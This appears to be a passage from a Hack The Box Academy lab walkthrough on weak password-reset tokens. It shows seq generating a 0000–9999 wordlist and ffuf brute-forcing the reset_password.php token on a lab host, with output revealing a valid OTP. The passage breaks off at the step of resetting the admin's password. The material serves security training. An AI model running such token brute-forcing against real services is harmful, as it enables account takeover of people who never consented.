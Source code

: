 Using `sed`, students need to create a wordlist containing numbers starting with 0 up until 9999:

Code: shell

```shell
seq -w 0 9999 > tokens.txt
```

```
┌─[eu-academy-5]─[10.10.14.81]─[htb-ac-413848@htb-2rcbi2srbd]─[~]
└──╼ [★]$ seq -w 0 9999 > tokens.txt
```

Afterward, students need to use `ffuf` to brute-force all valid OTPs belonging to user-requested password resets using the `seq`\-generated wordlist. Students will find one valid OTP (`3622` in here):

Code: shell

```shell
ffuf -w tokens.txt -u http://STMIP:STMPO/reset_password.php?token=FUZZ -fr "The provided token is invalid" -t 60
```

```
┌─[eu-academy-5]─[10.10.14.81]─[htb-ac-413848@htb-2rcbi2srbd]─[~]
└──╼ [★]$ ffuf -w tokens.txt -u http://94.237.58.102:33611/reset_password.php?token=FUZZ -fr "The provided token is invalid" -t 60

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0
________________________________________________

 :: Method           : GET
 :: URL              : http://94.237.58.102:33611/reset_password.php?token=FUZZ
 :: Wordlist         : FUZZ: /home/htb-ac-413848/tokens.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 60
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Regexp: The provided token is invalid
________________________________________________

3622                    [Status: 200, Size: 2920, Words: 596, Lines: 92, Duration: 96ms]
```

After that, students need to use the found OTP as the value for the `token` GET parameter of the `/reset_password.php` web page, finding the OTP belonging to the user `admin`; students need to reset the password of the user:
